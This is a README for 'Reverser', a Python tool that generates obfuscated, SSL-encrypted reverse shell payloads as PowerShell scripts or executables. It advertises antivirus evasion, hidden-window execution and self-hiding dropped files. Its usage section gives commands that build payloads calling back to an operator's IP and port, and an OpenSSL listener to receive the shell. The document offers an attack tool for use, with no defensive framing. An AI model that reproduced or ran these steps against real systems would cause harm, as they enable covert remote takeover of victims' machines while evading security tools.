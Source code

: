 # Reverser Tool

**Reverser** is a Python-based tool designed to generate reverse shell payloads with SSL encryption. The tool provides the ability to create either a PowerShell script (`.ps1`) or an executable file (`.exe`) that establishes a secure reverse shell connection to a specified IP address and port.

## Features

- **SSL Encryption**: The tool generates an SSL certificate and key to encrypt the reverse shell communication, enhancing security and bypassing basic network security measures.
- **Payload Generation**: Users can generate either a PowerShell script or an executable file. The payload is obfuscated to avoid detection by antivirus software.
- **Randomized Obfuscation**: The tool can randomize the obfuscation of the payload to further reduce the chance of detection by static analysis tools.
- **Hidden Execution**: Both the PowerShell script and the executable are designed to run in a hidden window, minimizing the likelihood of detection by the target user.
- **Auto-generated Files**: The executable file, when run, generates the PowerShell script on disk, hides it, and executes it to establish the reverse shell connection.
- **Customizable**: The IP address, port, and output file names can be customized through command-line arguments.

# Installtion

Clone the repository:
```bash
git clone https://github.com/yourusername/Reverser.git
cd Reverser
```
Install the necessary dependencies:
```bash
pip install -r requirements.txt
```
Ensure Mono is installed:
```bash
sudo apt-get install mono-complete
```


## Usage

1. **Generating an SSL Certificate**:
   The tool automatically generates an SSL certificate and key that will be used to encrypt the reverse shell communication.

2. **Generating a Payload with Obfuscation**:
   - To generate a PowerShell script:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type ps1
     ```
   - To generate an executable:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type exe
     ```

3. **Generating a Payload with Random Obfuscationn**:
   - To enable randomized obfuscation:
     ```bash
     python3 reverser.py -ip <Your_IP> -port <Your_Port> -type <exe | ps1> -random
     ```

4. **Starting an SSL Listener**:
   Once the payload is generated, start an OpenSSL listener on your machine to accept the reverse shell connection:
   ```bash
   openssl s_server -accept <Your_Port> -cert reception.pem -key reception.key -quiet
